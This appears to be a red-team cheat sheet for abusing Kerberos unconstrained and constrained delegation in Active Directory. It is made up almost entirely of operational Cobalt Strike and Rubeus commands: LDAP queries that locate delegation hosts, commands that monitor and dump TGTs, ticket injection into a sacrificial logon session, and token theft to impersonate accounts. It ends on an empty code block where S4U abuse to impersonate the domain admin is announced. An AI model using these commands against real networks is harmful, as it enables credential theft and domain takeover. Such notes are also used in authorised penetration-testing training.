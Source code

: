 
##### Unconstrained Delegation
Search for computers configured for Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369 (userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Within SYSTEM level beacon on Unconstrained Delegation host, monitor for incoming TGTs on host
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap
```

Stop Rubeus
```powershell
jobs
jobkill 0
```

Inject TGT into sacrificial logon session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist

rev2self       <--- Drop impersonation
kill [PID]
```

##### Constrained Delegation
Search for computers with Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
```

Check the UAC value to see if protocol transitioning is possible (we want true)
```powershell
ldapsearch (&(samAccountType=805306369)(samaccountname=LON-WS-1$)) --attributes userAccountControl
```

```powershell
[Convert]::ToBoolean([UAC_Value] -band 16777216)
```

Within SYSTEM level beacon on Constrained Delegation host, dump TGT for the computer account
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7  /service:krbtgt /nowrap
```

Perform the S4U abuse to obtain a usable service ticket for _cifs/lon-fs-1_, impersonating the default domain admin.
```powershell

```